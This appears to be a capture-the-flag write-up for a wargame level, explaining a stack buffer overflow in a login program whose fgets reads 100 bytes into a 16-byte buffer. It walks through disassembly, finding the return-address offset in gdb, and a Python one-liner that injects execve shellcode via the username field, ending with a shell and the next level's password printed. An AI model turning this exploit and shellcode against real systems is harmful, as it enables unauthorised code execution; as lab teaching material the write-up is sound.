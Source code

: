 ## 1- Intro

The program prompts for username and password and returns 0 or 1
to check if password is valid.

First username `fgets` chars is safe because it is limited and reads to
the global variable

`0x0804a040  a_user_name`

And compares first 7 chars to the string `dat_wil`

But the second `fgets` is unsafe because it is limited to 100 but size of the buffer is 16 and it is on the stack

```c
  int password_buffer [16];
  ...
  fgets((char *)password_buffer,100,0);
```

```sh
   0x080484d8 <+8>:     sub    $0x60,%esp
   0x080484db <+11>:    lea    0x1c(%esp),%ebx
   0x080484df <+15>:    mov    $0x0,%eax
   # Size of stack buffer for password is 16
   0x080484e4 <+20>:    mov    $0x10,%edx
...
   0x0804855c <+140>:   mov    0x804a020,%eax
   0x08048561 <+145>:   mov    %eax,0x8(%esp)
   # Size of read is 100
   0x08048565 <+149>:   movl   $0x64,0x4(%esp)
   0x0804856d <+157>:   lea    0x1c(%esp),%eax
   0x08048571 <+161>:   mov    %eax,(%esp)
   0x08048574 <+164>:   call   0x8048370 <fgets@plt>
```

So there is easy task to overflow it and point EIP return pointer to
our SHELLCODE which we can store in username input as it is limited to 256 size read.

## 2 - Hack

### Get ret address offset and shellcode

With pattern generator https://wiremask.eu/tools/buffer-overflow-pattern-generator/?

get offset for EIP

```sh
gdb ./level01
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af
(gdb) i r
...
eip            0x37634136       0x37634136
...
(gdb) 
```

which is 80 

and shellcode from 

## 3 - Compose attack input and run

For first input add `dat_wil` to pass the name check and `shellcode`

For the second input using offset 80 and `a_user_name` address + 7 (to skip dat_will) override EIP register to redirect program flow to the shellcode

```sh
python -c 'sc = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80";print "dat_wil" + sc + "\n" + "A" * 80 + "0x0804a047"[2:].decode("hex")[::-1]' > /tmp/exp1
cat /tmp/exp1 - | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password: 
nope, incorrect password...

whoami
level02
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
